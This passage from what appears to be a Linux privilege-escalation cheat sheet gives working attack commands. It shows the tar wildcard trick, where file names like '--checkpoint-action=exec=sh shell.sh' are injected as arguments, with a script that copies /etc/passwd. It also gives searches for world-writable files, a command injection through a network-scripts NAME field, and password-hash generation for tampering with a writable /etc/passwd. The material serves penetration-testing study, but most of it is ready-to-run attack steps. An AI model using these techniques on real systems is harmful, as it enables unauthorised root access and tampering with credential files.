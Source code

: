 
## Wildcard

By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar. “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.

```powershell
# create file for exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script
tar cf archive.tar *
```

Tool: [wildpwn](https://github.com/localh0t/wildpwn)

## Writable files

List world writable files on the system.

```powershell
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### Writable /etc/sysconfig/network-scripts/ (Centos/Redhat)

/etc/sysconfig/network-scripts/ifcfg-1337 for example

```powershell
NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0

EXEC :
./etc/sysconfig/network-scripts/ifcfg-1337
```
src : [https://vulmon.com/exploitdetailsqidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f]
(https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

### Writable /etc/passwd

First generate a password with one of the following commands.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

